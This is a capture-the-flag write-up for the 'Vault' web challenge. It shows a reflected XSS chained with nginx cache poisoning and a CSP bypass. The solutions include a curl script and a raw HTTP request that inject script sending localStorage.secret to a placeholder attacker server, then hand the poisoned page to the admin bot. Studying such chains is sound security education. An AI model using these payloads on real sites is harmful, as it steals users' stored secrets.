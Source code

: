 # Vault

* Round: 33 (2023/04)
* Category: Web
* Points: 200
* Solves: 2

## Description

A simple but secure web app for storing secrets! If you find any vulnerability, please report it to admin!

## Solution

There is an obvious reflected XSS in 404 Not Found, but browser will always encode `<` and `>` in path so you can't get XSS triggered easily from browser. On the other hand, it is easily to make it send unencoded `<` and `>` using curl, combining it with nginx cache poisoning (cache key doesn't include query parameters) so you can get it to return HTML. You can use another 404 Not Found to construct valid JS to bypass CSP.

```bash
tok=$RANDOM
host="http://ictf2.maple3142.net:11223"
your_website="http://SOME_NGROK_URL"
curl "$host/$tok/*?*/;location='$your_website/?'+localStorage.secret//"
curl "$host/html$tok?<script/src=/$tok/*></script>"
echo ""
echo "Visit: $host/html$tok"
curl "$host/report" -G -d "url=$host/html$tok" -X POST
```

## Alternative Solution by @downgrade

```http
GET /<script/src="1;location=('http://YOUR_SERVER/'+localStorage.secret);//"></script>/../../../../../../lmao.html HTTP/1.1
Host: ictf2.maple3142.net
```

This use the fact that `$uri` is normalized path without query string, so it will be normalized to `/lmao.html`, therefore it will return the HTML as from cache too. CSP bypass is basically the same, expect you don't need to use another cache poisoning for that as it is possible to construct valid without encoded characters.

## Alternative Solution by @lebr0nli

Since `$uri` is normalized path, you can just `curl '.../<h1>peko</h1>'` to force it into the cache, and visit `/<h1>peko</h1>` from browser to get it return HTML. Even if browser encodes `<` and `>` to `%3E` and `%3C`, it will still work as nginx will decode it before cache lookup.

